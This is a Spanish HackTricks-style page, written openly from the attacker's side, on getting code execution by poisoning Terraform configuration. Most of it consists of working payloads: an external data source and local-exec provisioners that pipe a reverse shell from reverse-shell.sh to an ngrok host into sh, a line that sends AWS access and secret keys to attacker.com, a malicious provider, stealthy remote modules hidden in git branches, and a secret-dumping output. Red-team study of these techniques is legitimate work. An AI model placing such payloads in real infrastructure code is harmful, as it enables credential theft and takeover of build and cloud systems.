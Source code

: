 # Seguridad en Terraform

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

[Desde la documentación: ](https://developer.hashicorp.com/terraform/intro)

HashiCorp Terraform es una **herramienta de infraestructura como código** que te permite definir tanto **recursos en la nube como en local** en archivos de configuración legibles por humanos que puedes versionar, reutilizar y compartir. Luego puedes usar un flujo de trabajo consistente para aprovisionar y gestionar toda tu infraestructura a lo largo de su ciclo de vida. Terraform puede gestionar componentes de bajo nivel como recursos de computación, almacenamiento y red, así como componentes de alto nivel como entradas de DNS y características de SaaS.

### ¿Cómo funciona Terraform?

Terraform crea y gestiona recursos en plataformas en la nube y otros servicios a través de sus interfaces de programación de aplicaciones (APIs). Los proveedores permiten que Terraform trabaje con prácticamente cualquier plataforma o servicio con una API accesible.

![](<../.gitbook/assets/image (33).png>)

HashiCorp y la comunidad de Terraform ya han escrito **más de 1700 proveedores** para gestionar miles de diferentes tipos de recursos y servicios, y este número sigue creciendo. Puedes encontrar todos los proveedores públicamente disponibles en el [Registro de Terraform](https://registry.terraform.io/), incluyendo Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog y muchos más.

El flujo de trabajo central de Terraform consta de tres etapas:

* **Escribir:** Definir recursos, que pueden estar en múltiples proveedores de nube y servicios. Por ejemplo, podrías crear una configuración para desplegar una aplicación en máquinas virtuales en una red Virtual Private Cloud (VPC) con grupos de seguridad y un balanceador de carga.
* **Planificar:** Terraform crea un plan de ejecución describiendo la infraestructura que creará, actualizará o destruirá basado en la infraestructura existente y tu configuración.
* **Aplicar:** Con aprobación, Terraform realiza las operaciones propuestas en el orden correcto, respetando cualquier dependencia de recursos. Por ejemplo, si actualizas las propiedades de una VPC y cambias el número de máquinas virtuales en esa VPC, Terraform recreará la VPC antes de escalar las máquinas virtuales.

![](<../.gitbook/assets/image (81).png>)

## Laboratorio de Terraform

Simplemente instala terraform en tu computadora.

Aquí tienes una [guía](https://learn.hashicorp.com/tutorials/terraform/install-cli) y aquí la [mejor manera de descargar terraform](https://www.terraform.io/downloads).

## RCE en Terraform

Terraform **no tiene una plataforma que exponga una página web o un servicio de red** que podamos enumerar, por lo tanto, la única forma de comprometer terraform es **poder añadir/modificar archivos de configuración de terraform**.

Sin embargo, terraform es un componente **muy sensible** de comprometer porque tendrá **acceso privilegiado** a diferentes ubicaciones para poder funcionar correctamente.

La principal manera para que un atacante pueda comprometer el sistema donde se ejecuta terraform es **comprometer el repositorio que almacena las configuraciones de terraform**, porque en algún momento van a ser **interpretadas**.

De hecho, hay soluciones que **ejecutan terraform plan/apply automáticamente después de crear un PR**, como **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Si puedes comprometer un archivo de terraform hay diferentes maneras en las que puedes realizar RCE cuando alguien ejecuta `terraform plan` o `terraform apply`.

### Terraform plan

Terraform plan es el **comando más utilizado** en terraform y los desarrolladores/soluciones que usan terraform lo llaman todo el tiempo, por lo que la **forma más fácil de obtener RCE** es asegurarte de envenenar un archivo de configuración de terraform que ejecutará comandos arbitrarios en un `terraform plan`.

#### Usando un proveedor externo

Terraform ofrece el [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) que proporciona una forma de interfaz entre Terraform y programas externos. Puedes usar el recurso de datos `external` para ejecutar código arbitrario durante un `plan`.

Inyectar en un archivo de configuración de terraform algo como lo siguiente ejecutará un rev shell cuando se ejecute `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Uso de un proveedor personalizado

Un atacante podría enviar un [proveedor personalizado](https://learn.hashicorp.com/tutorials/terraform/provider-setup) al [Terraform Registry](https://registry.terraform.io/) y luego agregarlo al código de Terraform en una rama de características ([ejemplo de aquí](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
El proveedor se descarga en el `init` y ejecutará el código malicioso cuando se ejecute `plan`

Puedes encontrar un ejemplo en [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Usando una referencia externa

Ambas opciones mencionadas son útiles pero no muy sigilosas (la segunda es más sigilosa pero más compleja que la primera). Puedes realizar este ataque de una manera **aún más sigilosa**, siguiendo estas sugerencias:

* En lugar de añadir el rev shell directamente en el archivo de terraform, puedes **cargar un recurso externo** que contenga el rev shell:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Puede encontrar el código de rev shell en [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* En el recurso externo, utilice la característica **ref** para ocultar el **código de terraform rev shell en una rama** dentro del repositorio, algo así como: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

Terraform apply se ejecutará para aplicar todos los cambios, también puede abusar de él para obtener RCE inyectando **un archivo Terraform malicioso con** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Solo necesita asegurarse de que algún payload como los siguientes termine en el archivo `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Sigue las **sugerencias de la técnica anterior** para realizar este ataque de una manera **más sigilosa utilizando referencias externas**.

## Volcado de Secretos

Puedes obtener **valores secretos utilizados por terraform** ejecutando `terraform apply` añadiendo al archivo de terraform algo como:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Herramientas de Auditoría

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec utiliza análisis estático de tu código terraform para detectar posibles malas configuraciones.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan es un analizador de código estático para Infraestructura como Código.

## Referencias

* [Seguridad de Atlantis](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)
* [https://developer.hashicorp.com/terraform/intro](https://developer.hashicorp.com/terraform/intro)


<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
